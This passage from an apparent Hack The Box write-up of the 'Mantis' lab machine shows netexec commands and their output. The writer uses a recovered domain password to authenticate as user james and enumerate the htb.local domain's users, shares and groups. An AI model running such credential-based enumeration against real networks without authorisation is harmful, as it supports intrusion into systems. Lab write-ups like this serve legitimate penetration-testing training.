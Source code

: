 The `admin`'s password seems to be encrypted with the [PBKDF2](https://en.wikipedia.org/wiki/PBKDF2) algorithm, thus, we can't directly decode it. So let's see what user `james` can offer us. If `james` is a domain user, we can start enumerating the `HTB.LOCAL` domain.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># write jame's password to a file
$ echo "J@m3s_P@ssW0rd!" > james_pass
<strong># james is not a local user
</strong>$ nxc smb 10.10.10.52 -u james -p james_pass --local-auth
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:MANTIS) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [-] MANTIS\james:******** STATUS_LOGON_FAILURE
# james is a valid domain user
$ nxc smb 10.10.10.52 -u james -p james_pass
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:********
# enumerating domain's users, shares, and groups
$ nxc smb 10.10.10.52 -u james -p james_pass --users --shares --groups
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:********
SMB         10.10.10.52     445    MANTIS           [*] Enumerated shares
SMB         10.10.10.52     445    MANTIS           Share           Permissions     Remark
SMB         10.10.10.52     445    MANTIS           -----           -----------     ------
SMB         10.10.10.52     445    MANTIS           ADMIN$                          Remote Admin
SMB         10.10.10.52     445    MANTIS           C$                              Default share
SMB         10.10.10.52     445    MANTIS           IPC$                            Remote IPC
SMB         10.10.10.52     445    MANTIS           NETLOGON        READ            Logon server share
SMB         10.10.10.52     445    MANTIS           SYSVOL          READ            Logon server share
SMB         10.10.10.52     445    MANTIS           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.52     445    MANTIS           [+] Enumerated domain user(s)
SMB         10.10.10.52     445    MANTIS           htb.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.10.52     445    MANTIS           htb.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.52     445    MANTIS           htb.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.52     445    MANTIS           htb.local\james
SMB         10.10.10.52     445    MANTIS           [+] Enumerated domain group(s)
SMB         10.10.10.52     445    MANTIS           SQLServer2005SQLBrowserUser$MANTIS       membercount: 0
SMB         10.10.10.52     445    MANTIS           DnsUpdateProxy                           membercount: 0
SMB         10.10.10.52     445    MANTIS           DnsAdmins                                membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Account Operators                        membercount: 0
SMB         10.10.10.52     445    MANTIS           Server Operators                         membercount: 0
SMB         10.10.10.52     445    MANTIS           RAS and IAS Servers                      membercount: 0
SMB         10.10.10.52     445    MANTIS           Group Policy Creator Owners              membercount: 1
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Domain Admins                            membercount: 1